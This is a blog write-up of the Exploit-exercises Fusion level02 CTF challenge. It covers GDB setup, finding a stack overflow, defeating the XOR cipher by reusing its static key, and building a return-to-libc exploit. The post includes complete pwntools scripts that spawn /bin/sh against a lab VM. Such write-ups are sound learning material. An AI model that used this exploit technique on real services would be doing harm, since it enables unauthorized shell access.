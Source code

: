 ```yaml
---
layout: post
title:  "[Exploit-exercises] Fusion level02"
date:   2018-03-18 18:00:00 +0000
categories: "CTF"
comments: true
---
```


This exercise was interesting because I used GDB without PEDA and we all know how this tool can rapidly be an essential when debugging. Hence, no **searchmem** command with which I was really used to.

The source code of the exercise can be found at [exploit-exercises.com](https://exploit-exercises.com/fusion/level02/).

The "About" section of the challenge is:
>This level deals with some basic obfuscation / math stuff

>This level introduces non-executable memory and return into libc / .text / return orientated programming (ROP).
![Fusion level02 description]({{ "/assets/fusionlevel02.png" | absolute_url }})

There is multiple solutions to this exercise that you can find just by googling its name. I used a return into libc approach.

Preparing GDB
---------------------
Because it's not so simple for beginners, let's see how I configured GDB on the fusion virtual machine. First we want to log in as root because otherwise we can't attach GDB to the level02's process and then we use **pgrep** to retrieve the PID of the process.
{% highlight shell %}
fusion@fusion:~$ sudo -s
[sudo] password for fusion:
root@fusion:~# pgrep level02
1690
root@fusion:~# gdb
{% endhighlight %}

At this point, we should say to GDB that we want disassembly code in the Intel style (I think it's much easier to read). Then, we want to follow the child that the process will create when called. I'm not 100% sure but the program seems to listen to a specific port and fork to execute the source code we have. And we attach GDB to the level02 process.
{% highlight shell %}
(gdb) set disassembly-flavor intel
(gdb) set follow-fork-mode child
(gdb) attach 1690
{% endhighlight %}

Now GDB is ready.

Static analysis
---------------------
The program starts with the *encrypt_file* function which will enter in a while loop that reads several times from the standard input and also write to the standard output. It uses functions called *nread* and *nwrite* which are the obfuscation part of the exercise I guess. But after a quick look at these, it doesn't seems to make any difference.

In the middle of the loop, *cipher* is called with 'buffer' and 'sz' as arguments. This function basically xor the buffer with a key that is taken from /dev/urandom. But this key is generated at the first call of the function and keep its value for eventual next call because it's a static variable.

Here is the description of the loop:

+ The first nread takes an unsigned char (1 byte) and then comes a switch case wether it's 'E' or 'Q'.
+ If it's 'E', then it reads 4 bytes (size_t) and place it in 'sz'. If it's 'Q', the function return.
+ And here is our buffer overflow, it reads 'sz' bytes and store it into 'buffer'.
+ The buffer is xored and if this is the first time *cipher* is called; the key is created.
+ The first nwrite writes 'sz' (4 bytes) to stdout.
+ The second one write the xored buffer.
+ Start again

If we read more than the size of the 'buffer' (131072 bytes), we can override EIP. The assembly code just before the 3rd nread call is:
{% highlight nasm %}
0x08049871 <+122>:	mov    eax,DWORD PTR [ebp-0x20014]
0x08049877 <+128>:	mov    DWORD PTR [esp+0x8],eax // sz address
0x0804987b <+132>:	lea    eax,[ebp-0x2000c]
0x08049881 <+138>:	mov    DWORD PTR [esp+0x4],eax // buffer address
0x08049885 <+142>:	mov    DWORD PTR [esp],0x0 // stdin
0x0804988c <+149>:	call   0x804952d <nread>
{% endhighlight %}
Our buffer is at $ebp-0x2000c.

Controlling EIP
---------------------
Let's try to send 0x2000c + 0x8 bytes (0x20014) as buffer, and see if it overrides EIP.
{% highlight shell %}
python -c "print('E' + '\x14\x00\x02\x00' + 'A'*0x2000c + 'BBBBCCCC' + 'Q')" | nc 192.168.56.101 20002
{% endhighlight %}
'CCCC' should be the new EIP ('BBBB' overrides EBP). The 'Q' allows us to quit the function without calling the *exit* function and then executing our new EIP.

Result:
{% highlight shell %}
(gdb) c
Continuing.
[New process 2423]

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 2423]
0xfe334c95 in ?? ()
{% endhighlight %}
I guess this is 'CCCC' but xored by the *cipher* function.

Now, as we saw that the key with which the buffer is xored is generated the first time *cipher* is called, we can presumably send the same size and the xored buffer in the second loop iteration because **k xor (buffer xor k) = buffer** (with k=key).

I used [pwntools](https://github.com/Gallopsled/pwntools) to write the exploit (awesome tool).
{% highlight python %}
#!/usr/bin/python2

from pwn import *

c = remote('192.168.56.101',20002)
c.recvline() # "Entreprise..."

payload = 'A'*0x2000c + 'BBBB' + 'CCCC'

c.send('E' + p32(len(payload)) + payload)
c.recvline() # "encryption..."
size = c.recvn(4)

enc = c.recvn(len(payload)) # encrypter buffer

c.send('E' + p32(len(enc)) + enc + 'Q')

c.interactive()
{% endhighlight %}
*recvn(n)* wait for exactly n bytes on the socket. Let's run the script:
{% highlight shell %}
(gdb) c
Continuing.
[New process 2758]

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 2758]
0x43434343 in ?? ()
{% endhighlight %}
We now fully control EIP.

Return into libc
---------------------
It was the most funny part, because this is were I learned things. I choosed a return into libc approach because it seemed to be the most simple way. Return into libc is a classical attack and if you want to learn how it works this [exploitdb paper](https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf) explain it.

The classical way to exploit it is to execute the *system* function with '/bin/sh' as an argument. EIP should be the address of *system* then a dummy return address (or exit function if you want to do it properly) and finally the address of '/bin/sh'. My challenge was, how to find this function address and this string without using GDB ?

First let see where is the libc:
{% highlight shell %}
root@fusion:~# ldd /opt/fusion/bin/level02
	linux-gate.so.1 =>  (0xb77fc000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7674000)
	/lib/ld-linux.so.2 (0xb77fd000)
{% endhighlight %}

Now, we can search for the address of *system*:
{% highlight shell %}
root@fusion:~# objdump -d /lib/i386-linux-gnu/libc.so.6 | grep "system"
   3c5af:	0f 85 f6 05 00 00    	jne    3cbab <__libc_system+0x8b>
   3c626:	0f 85 8f 05 00 00    	jne    3cbbb <__libc_system+0x9b>
   3c72a:	0f 85 9b 04 00 00    	jne    3cbcb <__libc_system+0xab>
   3c7a2:	0f 85 33 04 00 00    	jne    3cbdb <__libc_system+0xbb>
   3c86f:	0f 85 76 03 00 00    	jne    3cbeb <__libc_system+0xcb>
   3c8d6:	0f 85 1f 03 00 00    	jne    3cbfb <__libc_system+0xdb>
   3caaa:	0f 85 5b 01 00 00    	jne    3cc0b <__libc_system+0xeb>
   3cb11:	0f 85 04 01 00 00    	jne    3cc1b <__libc_system+0xfb>
0003cb20 <__libc_system>:
   3cb40:	74 26                	je     3cb68 <__libc_system+0x48>
   3cb4a:	75 40                	jne    3cb8c <__libc_system+0x6c>
   3cba9:	eb cf                	jmp    3cb7a <__libc_system+0x5a>
000faad0 <svcerr_systemerr>:
{% endhighlight %}
When searching for *__libc_system* on google we find this [result](https://github.com/lattera/glibc/blob/master/sysdeps/posix/system.c) and we can see that this function is called with an argument (line) which is then passed to another function (do_system) and again to *__execve*. The address of *__libc_system* is 0x0003cb20.

Then we have to find a string like '/bin/sh'. We can use the ROPgadget tool provided in the fusion VM but I wanted to find another way to search for a string and its address, and apparently we can use the **string** command:
{% highlight shell %}
root@fusion:~# strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
 1388da /bin/sh
{% endhighlight %}

The next step is to find where the libc is mapped for this binary, we can find it using /proc/PID/maps:
{% highlight shell %}
root@fusion:~# cat /proc/1690/maps
08048000-0804b000 r-xp 00000000 07:00 75275      /opt/fusion/bin/level02
0804b000-0804c000 rw-p 00002000 07:00 75275      /opt/fusion/bin/level02
b770a000-b770b000 rw-p 00000000 00:00 0
b770b000-b7881000 r-xp 00000000 07:00 92669      /lib/i386-linux-gnu/libc-2.13.so
b7881000-b7883000 r--p 00176000 07:00 92669      /lib/i386-linux-gnu/libc-2.13.so
b7883000-b7884000 rw-p 00178000 07:00 92669      /lib/i386-linux-gnu/libc-2.13.so
b7884000-b7887000 rw-p 00000000 00:00 0
b7891000-b7893000 rw-p 00000000 00:00 0
b7893000-b7894000 r-xp 00000000 00:00 0          [vdso]
b7894000-b78b2000 r-xp 00000000 07:00 92553      /lib/i386-linux-gnu/ld-2.13.so
b78b2000-b78b3000 r--p 0001d000 07:00 92553      /lib/i386-linux-gnu/ld-2.13.so
b78b3000-b78b4000 rw-p 0001e000 07:00 92553      /lib/i386-linux-gnu/ld-2.13.so
bfedc000-bfefd000 rw-p 00000000 00:00 0          [stack]
{% endhighlight %}
We clearly see that the libc is mapped from 0xb770b000 to 0xb7884000 and that its executable part (r-xp) start at 0xb770b000. When calling the *__libc_system* function and the '/bin/sh' string, we'll have to add the offset of the libc to their address.

Our exploit is now:
{% highlight python %}
#!/usr/bin/python2

from pwn import *

c = remote('192.168.56.101',20002)
c.recvline()#Entreprise...

offset = 0xb770b000 #offset libc /proc/PID/maps
p = ""
p += p32(offset + 0x0003cb20) #system
p += "CCCC" #GARBAGE
p += p32(offset + 0x001388da) #/bin/sh

payload = 'A'*0x2000c + 'BBBB' + p

c.send('E' + p32(len(payload)) + payload)
c.recvline()
size = c.recvn(4)

enc = c.recvn(len(payload))

c.send('E' + p32(len(enc)) + enc + 'Q')

c.interactive()
{% endhighlight %}
Now we have a shell!
